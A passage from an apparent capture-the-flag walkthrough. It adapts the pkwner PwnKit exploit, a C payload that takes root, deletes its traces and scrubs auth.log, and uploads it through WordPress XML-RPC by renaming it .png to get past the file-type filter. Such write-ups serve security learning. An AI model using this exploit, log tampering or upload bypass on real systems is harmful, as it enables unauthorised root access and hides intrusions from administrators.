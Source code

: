 There are a bunch of exploits out there. I went with [this one](https://github.com/kimusan/pkwner?ref=pythonawesome.com) as a shell script that will generate and run the payload. I’ll download the script, and I’ll have to modify it a bit. Since I’m just running from a webshell, I can’t have the result be a root shell. Instead, I’ll have to put the command I want in the script. To test, I’ll run `id`, putting it in the place of `/bin/bash` in what’s written to `pkwner.c` here:
~~~
    cat > pkwner/pkwner.c <<- EOM
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    void gconv() {}
    void gconv_init() {
      printf("hello");
      setuid(0); setgid(0);
            seteuid(0); setegid(0);
      system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
             "rm -rf 'GCONV_PATH=.' 'pkwner';"
             "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
             "id");
            exit(0);
    }
    EOM
~~~

#### Upload

There is a `wp.uploadFile` method in WordPress XML-RPC which I found the general syntax for [here](https://gist.github.com/georgestephanis/5681982). I couldn’t find it in the [docs](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/index.html) for the Python client, but it is in the [code](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/wordpress_xmlrpc/methods/media.py#L39). There’s also a [test for uploading a file](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/tests/test_media.py#L35), which I can use as a model.

In the same Python terminal I’ve been working out of (with a client already connected), I’ll import `media`, and then create a `data` object:
~~~
    >>> from wordpress_xmlrpc.methods import media
    >>> with open('pkwner.sh', 'r') as f:
    ...     script = f.read()
    ... 
    >>> data = { 'name': 'pkwner.sh', 'bits': script, 'type': 'text/plain' }
~~~

On sending this, there’s an error:
~~~
    >>> client.call(media.UploadFile(data))
    Traceback (most recent call last):
    ...[snip]...
    xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>
~~~

The file type seems like a `type` issue, so I’ll change it to something I probably can upload, `image/png`, but I get the same error. I’ll try changing the file extension to `.png`, and it works:
~~~
    >>> data = { 'name': 'pkwner.png', 'bits': script, 'type': 'text/plain' }
    >>> client.call(media.UploadFile(data))
    {'attachment_id': '48', 'date_created_gmt': <DateTime '20220201T23:14:24' at 0x7f25f8bb9a60>, 'parent': 0, 'link': '/wp-content/uploads/2022/02/pkwner.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2022/02/pkwner.png', 'id': '48', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2022/02/pkwner.png'}
 ~~~   
